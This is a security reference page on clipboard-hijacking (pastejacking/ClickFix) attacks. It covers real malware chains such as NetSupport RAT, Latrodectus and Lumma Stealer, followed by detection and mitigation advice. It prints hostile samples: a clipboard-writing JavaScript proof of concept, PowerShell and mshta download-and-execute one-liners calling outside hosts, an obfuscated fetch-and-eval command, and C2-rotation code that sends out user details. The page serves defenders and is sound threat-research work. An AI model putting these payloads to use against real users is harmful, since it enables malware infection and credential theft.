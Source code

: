 # Clipboard Hijacking (Pastejacking) Attacks

> "Never paste anything you did not copy yourself." – old but still valid advice

## Overview

Clipboard hijacking – also known as *pastejacking* – abuses the fact that users routinely copy-and-paste commands without inspecting them. A malicious web page (or any JavaScript-capable context such as an Electron or Desktop application) programmatically places attacker-controlled text into the system clipboard. Victims are encouraged, normally by carefully crafted social-engineering instructions, to press **Win + R** (Run dialog), **Win + X** (Quick Access / PowerShell), or open a terminal and *paste* the clipboard content, immediately executing arbitrary commands.

Because **no file is downloaded and no attachment is opened**, the technique bypasses most e-mail and web-content security controls that monitor attachments, macros or direct command execution. The attack is therefore popular in phishing campaigns delivering commodity malware families such as NetSupport RAT, Latrodectus loader or Lumma Stealer.

## JavaScript Proof-of-Concept

```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
  const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
  navigator.clipboard.writeText(payload)
    .then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```

Older campaigns used `document.execCommand('copy')`, newer ones rely on the asynchronous **Clipboard API** (`navigator.clipboard.writeText`).

## The ClickFix / ClearFake Flow

1. User visits a typosquatted or compromised site (e.g. `docusign.sa[.]com`)
2. Injected **ClearFake** JavaScript calls an `unsecuredCopyToClipboard()` helper that silently stores a Base64-encoded PowerShell one-liner in the clipboard.
3. HTML instructions tell the victim to: *“Press **Win + R**, paste the command and press Enter to resolve the issue.”*
4. `powershell.exe` executes, downloading an archive that contains a legitimate executable plus a malicious DLL (classic DLL sideloading).
5. The loader decrypts additional stages, injects shellcode and installs persistence (e.g. scheduled task) – ultimately running NetSupport RAT / Latrodectus / Lumma Stealer.

### Example NetSupport RAT Chain

```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```

* `jp2launcher.exe` (legitimate Java WebStart) searches its directory for `msvcp140.dll`.
* The malicious DLL dynamically resolves APIs with **GetProcAddress**, downloads two binaries (`data_3.bin`, `data_4.bin`) via **curl.exe**, decrypts them using a rolling XOR key `"https://google.com/"`, injects the final shellcode and unzips **client32.exe** (NetSupport RAT) to `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader

```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```

1. Downloads `la.txt` with **curl.exe**
2. Executes the JScript downloader inside **cscript.exe**
3. Fetches an MSI payload → drops `libcef.dll` besides a signed application → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer via MSHTA

```
mshta https://iplogger.co/xxxx =+\\xxx
```

The **mshta** call launches a hidden PowerShell script that retrieves `PartyContinued.exe`, extracts `Boat.pst` (CAB), reconstructs `AutoIt3.exe` through `extrac32` & file concatenation and finally runs an `.a3x` script which exfiltrates browser credentials to `sumeriavgv.digital`.

## ClickFix: Clipboard → PowerShell → JS eval → Startup LNK with rotating C2 (PureHVNC)

Some ClickFix campaigns skip file downloads entirely and instruct victims to paste a one‑liner that fetches and executes JavaScript via WSH, persists it, and rotates C2 daily. Example observed chain:

```powershell
powershell -c "$j=$env:TEMP+'\a.js';sc $j 'a=new 
ActiveXObject(\"MSXML2.XMLHTTP\");a.open(\"GET\",\"63381ba/kcilc.ellrafdlucolc//:sptth\".split(\"\").reverse().join(\"\"),0);a.send();eval(a.responseText);';wscript $j" Prеss Entеr
```

Key traits
- Obfuscated URL reversed at runtime to defeat casual inspection.
- JavaScript persists itself via a Startup LNK (WScript/CScript), and selects the C2 by current day – enabling rapid domain rotation.

Minimal JS fragment used to rotate C2s by date:
```js
function getURL() {
    var C2_domain_list = ['stathub.quest','stategiq.quest','mktblend.monster','dsgnfwd.xyz','dndhub.xyz'];
    var current_datetime = new Date().getTime();
    var no_days = getDaysDiff(0, current_datetime);
    return 'https://'
        + getListElement(C2_domain_list, no_days)
        + '/Y/?t=' + current_datetime
        + '&v=5&p=' + encodeURIComponent(user_name + '_' + pc_name + '_' + first_infection_datetime);
}
```

Next stage commonly deploys a loader that establishes persistence and pulls a RAT (e.g., PureHVNC), often pinning TLS to a hardcoded certificate and chunking traffic.

Detection ideas specific to this variant
- Process tree: `explorer.exe` → `powershell.exe -c` → `wscript.exe <temp>\a.js` (or `cscript.exe`).
- Startup artifacts: LNK in `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup` invoking WScript/CScript with a JS path under `%TEMP%`/`%APPDATA%`.
- Registry/RunMRU and command‑line telemetry containing `.split('').reverse().join('')` or `eval(a.responseText)`.
- Repeated `powershell -NoProfile -NonInteractive -Command -` with large stdin payloads to feed long scripts without long command lines.
- Scheduled Tasks that subsequently execute LOLBins such as `regsvr32 /s /i:--type=renderer "%APPDATA%\Microsoft\SystemCertificates\<name>.dll"` under an updater‑looking task/path (e.g., `\GoogleSystem\GoogleUpdater`).

Threat hunting
- Daily‑rotating C2 hostnames and URLs with `.../Y/?t=<epoch>&v=5&p=<encoded_user_pc_firstinfection>` pattern.
- Correlate clipboard write events followed by Win+R paste then immediate `powershell.exe` execution.

Blue-teams can combine clipboard, process-creation and registry telemetry to pinpoint pastejacking abuse:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` keeps a history of **Win + R** commands – look for unusual Base64 / obfuscated entries.
* Security Event ID **4688** (Process Creation) where `ParentImage` == `explorer.exe` and `NewProcessName` in { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Event ID **4663** for file creations under `%LocalAppData%\Microsoft\Windows\WinX\` or temporary folders right before the suspicious 4688 event.
* EDR clipboard sensors (if present) – correlate `Clipboard Write` followed immediately by a new PowerShell process.

## Mitigations

1. Browser hardening – disable clipboard write-access (`dom.events.asyncClipboard.clipboardItem` etc.) or require user gesture.
2. Security awareness – teach users to *type* sensitive commands or paste them into a text editor first.
3. PowerShell Constrained Language Mode / Execution Policy + Application Control to block arbitrary one-liners.
4. Network controls – block outbound requests to known pastejacking and malware C2 domains.

## Related Tricks

* **Discord Invite Hijacking** often abuses the same ClickFix approach after luring users into a malicious server:
  
[[discord-invite-hijacking.md]]

## References

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)
- [Check Point Research – Under the Pure Curtain: From RAT to Builder to Coder](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)

